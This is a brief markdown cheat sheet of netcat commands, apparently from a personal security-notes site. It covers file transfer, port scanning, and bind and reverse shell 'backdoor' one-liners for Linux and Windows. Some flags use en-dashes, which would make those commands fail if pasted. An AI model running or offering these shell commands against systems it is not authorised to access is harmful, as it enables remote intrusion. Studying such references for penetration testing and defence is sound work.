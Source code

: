 ```yaml
---
layout: notes
permalink: /notes/cheat/ncat/
title: ncat Cheat Sheet
---
```


# ncat Cheat Sheet
### Netcat allows transfer files to ↔️ from destination. Create connections to ↔️ from machines.
```bash
#Push file from client to listener
nc –l -p [LocalPort] > [outfile]

#Pull file from listener to client
nc –l -p [LocalPort] < [infile]

#Banner Grab
nc –v –n –z –w1 [TargetIPaddr] [start_port]-[end_port]

#Linux - Create Backdoor
nc –l –p [LocalPort] –e /bin/bash

#Linux - Reverse Backdoor
nc [YourIPaddr] [port] –e /bin/bash

#Windows - Create Backdoor
nc –l –p [LocalPort] –e cmd.exe

#Windows - Reverse Backdoor
nc [YourIPaddr] [port] –e cmd.exe
```